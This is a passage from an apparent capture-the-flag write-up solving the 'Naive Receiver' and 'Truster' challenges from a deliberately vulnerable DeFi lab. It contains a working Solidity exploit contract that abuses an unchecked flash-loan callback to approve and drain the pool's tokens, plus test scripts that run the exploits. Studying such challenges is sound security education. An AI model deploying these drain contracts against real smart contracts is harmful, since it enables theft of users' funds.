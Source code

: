 Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const NaiveReceiverExploitFactory = await ethers.getContractFactory('NaiveReceiverExploit', deployer);
        this.exploit = await NaiveReceiverExploitFactory.deploy(this.pool.address);
        await this.exploit.exploit(this.receiver.address, 0)
    });
```

## 3. Truster

Since there is no restriction of what `target` address should be and no restriction of what functions can be called within `data`, it is possible to call the `approve()` function from the ERC20 token to approve the exploit contract (or even the attacker address) to transfer any amount of token in behalf of the `TrusterLenderPool` contract.

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TrusterLenderPool.sol";

contract TrusterExploit {
    function attack(address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            2**256 - 1
        );
        pool.flashLoan(0, msg.sender, _token, data);
        token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
    }
}
```

Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const TrusterExploit = await ethers.getContractFactory('TrusterExploit', deployer);
        const exploit = (await TrusterExploit.deploy()).connect(attacker);
        await exploit.attack(this.pool.address, this.token.address)
    });
```
